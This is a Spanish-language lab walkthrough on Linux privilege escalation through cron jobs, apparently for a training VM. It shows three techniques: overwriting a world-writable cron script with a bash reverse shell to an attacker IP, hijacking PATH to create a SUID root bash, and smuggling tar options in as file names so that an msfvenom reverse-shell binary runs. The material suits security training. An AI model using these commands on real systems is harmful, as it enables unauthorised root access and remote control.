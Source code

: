# Cron Job

Cron  ejecuta automáticamente comandos o scripts (grupos de comandos) a una hora o fecha específica.

## File Permissions

Las tareas cron son programas o scripts que los usuarios pueden programar para que se ejecuten en momentos o intervalos específicos. Los archivos de tabla cron (crontabs) almacenan la configuración para las tareas cron. La tabla cron del sistema se encuentra en /etc/crontab.&#x20;

```
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh


```

Debería haber dos tareas cron programadas para ejecutarse cada minuto. Una ejecuta overwrite.sh, la otra ejecuta /usr/local/bin/compress.sh. Localiza la ruta completa del archivo overwrite.sh:

```
locate overwrite.sh
```

Nota que el archivo tiene permisos de escritura para todos:

```
ls -l /usr/local/bin/overwrite.sh
```

Reemplaza el contenido del archivo overwrite.sh con el siguiente después de cambiar la dirección IP por la de tu máquina Kali.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Configura un escucha netcat en tu máquina Kali en el puerto 4444 y espera a que se ejecute la tarea cron.Un shell de root debería conectarse de vuelta a tu escucha netcat.

```
nc -nvlp 4444
```

## PATH Environment Variables

Visualiza el contenido de la tabla cron del sistema:

```
cat /etc/crontab
```

Nota que la variable PATH comienza con /home/user, que es el directorio principal de nuestro usuario.

Crea un archivo llamado overwrite.sh en tu directorio principal con el siguiente contenido:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Asegúrate de que el archivo sea ejecutable:

```
chmod +x /home/user/overwrite.sh
```

Espera a que se ejecute la tarea cron. Ejecuta el comando /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
/tmp/rootbash -p
```

Recuerda eliminar el código modificado, eliminar el ejecutable /tmp/rootbash y salir del shell elevado antes de continuar, ya que crearás este archivo nuevamente más adelante en la tarea.

```
rm /tmp/rootbash
exit
```

## Wildcards

Visualiza el contenido del otro script de tarea cron:

```
cat /usr/local/bin/compress.sh
```

Observa que el comando tar se está ejecutando con un comodín (\*) en tu directorio principal.

Consulta la página GTFOBins para tar. Observa que tar tiene opciones de línea de comandos que te permiten ejecutar otros comandos como parte de una función de punto de control.

Usa msfvenom en tu máquina Kali para generar un binario ELF de shell inversa. Actualiza la dirección IP LHOST en consecuencia:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfiere el archivo shell.elf a /home/user/ en la máquina virtual Debian. Asegúrate de que el archivo sea ejecutable:

```
chmod +x /home/user/shell.elf
```

Crea estos dos archivos en /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Cuando se ejecute el comando tar en la tarea cron, el comodín (\*) se expandirá para incluir estos archivos. Dado que los nombres de archivo son opciones de línea de comandos válidas para tar, tar los reconocerá como tales y los tratará como opciones de línea de comandos en lugar de nombres de archivo.

Configura un oyente de netcat en tu máquina Kali en el puerto 4444 y espera a que se ejecute la tarea cron. Un shell de root debería conectarse de vuelta a tu oyente de netcat.

```
nc -nvlp 4444
```

Recuerda salir del shell de root y eliminar todos los archivos que creaste para evitar que la tarea cron se ejecute nuevamente:

```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```
